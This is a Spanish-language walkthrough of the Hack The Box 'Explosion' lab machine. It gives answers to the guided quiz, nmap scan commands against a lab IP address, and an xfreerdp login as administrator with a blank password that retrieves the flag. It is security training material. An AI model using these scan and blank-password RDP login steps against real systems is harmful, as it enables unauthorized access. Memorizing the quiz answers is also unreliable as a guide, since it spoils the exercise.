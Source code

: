 #veryeasy #linux #startingpoint #nmap #ping #xfreerdp

----
# Guided Mode

1)¿Qué significa la sigla de 3 letras RDP? 
	 Remote Desktop Protocol

2)¿Qué es un acrónimo de 3 letras que se refiere a la interacción con el host a través de una interfaz de línea de comandos?
	CLI

3)¿Y las interacciones de la interfaz gráfica de usuario? 
	GUI

4)¿Cuál es el nombre de una antigua herramienta de acceso remoto que venía sin cifrado por defecto y escucha en el puerto TCP 23?  
	[[telnet]]

5)¿Cuál es el nombre del servicio que se ejecuta en el puerto 3389 TCP? 
	ms-wbt-server

6)¿Qué interruptor se utiliza para especificar la dirección IP del host de destino cuando se utiliza xfreerdp?  
	/v:

7)¿Qué nombre de usuario nos devuelve correctamente una proyección de escritorio con una contraseña en blanco?
	administrator

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.1.13
nmap -p- --open -vvv -n -Pn -sS --min-rate 5000 10.129.1.13 -oG allports 
extractPorts allports         
nmap -sCV -p135,139,445,3389,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 10.129.1.13 -oN target
```

![[Explosion1.png]]

![[Explosion2.png]]

![[Explosion3.png]]

![[Explosion4.png]]
*TTL:* Maquina windows
*Puertos relevantes:*
	`3389` [[xfreerdp]]

---------
# Intrusion a la maquina con [[xfreerdp]]

```shell
xfreerdp /v:10.129.1.13:3389 /u:administrator
```
Con este comando conseguis una interfaz remota en la maquina victima, y estaba la flag en un txt dentro del escritorio
![[Explosion5.png]]

---------
